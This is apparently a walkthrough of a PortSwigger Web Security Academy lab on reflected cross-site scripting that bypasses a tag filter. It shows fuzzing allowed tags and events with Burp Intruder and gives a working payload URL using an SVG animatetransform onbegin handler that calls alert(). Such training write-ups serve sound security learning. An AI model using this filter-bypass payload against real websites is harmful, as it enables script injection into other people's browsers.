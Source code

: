 Title: Reflected XSS with some SVG markup allowed
Level: PRACTITIONER
Desc: This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.
To solve the lab, perform a cross-site scripting attack that calls the alert() function. 

# Walkthrough:

<img width="1405" height="226" alt="image" src="https://github.com/user-attachments/assets/57559dd6-bd4d-4eab-9eb5-e7b639b32ff1" />

copy all tags to clipboard from this site: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

I make intruder attack to try all tags possible.

After intruder attack I can see, that couple elements are possible to use on the web page: 
`<animatetransform>`
`<image>`
`<svg>`

Now we can creaft combo: `<svg><animatetransform%20=1>`

And now again intruder but this time we need to make attack here: 
`<svg><animatetransform%20§§=1>`

from site copy all events and run an attack: `https://portswigger.net/web-security/cross-site-scripting/cheat-sheet`

<img width="1313" height="406" alt="image" src="https://github.com/user-attachments/assets/ac6898f0-cd01-497c-94ee-ea362b5f9825" />

`onbegin` that's the one!

our malicious link: `https://0a9d00dc03ebe2a5806403e400d4006a.h1-web-security-academy.net/?search=%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E`





